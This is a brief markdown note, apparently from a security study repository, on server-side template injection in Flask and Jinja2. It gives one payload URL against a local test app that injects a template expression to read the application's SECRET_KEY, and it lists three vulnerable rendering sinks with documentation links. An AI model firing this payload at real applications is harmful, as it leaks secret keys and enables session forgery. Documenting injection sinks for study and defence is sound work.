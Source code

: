 # Service Side Template Injection

## Payloads

```
http://localhost:5000/ssti1?search={{config['SECRET_KEY']}}
```

## Sinks

- `flask.render_template_string(UNTRUSTED, ...)`
  - https://flask.palletsprojects.com/en/1.1.x/api/?highlight=flask%20render_template_string#flask.render_template_string
- `jinja2.Environment.from_string(UNTRUSTED, ...)`
  - https://jinja.palletsprojects.com/en/2.11.x/api/#jinja2.Environment.from_string
- `jinja2.Template(UNTRUSTED, ...)`
  - https://jinja.palletsprojects.com/en/2.11.x/api/#jinja2.Template
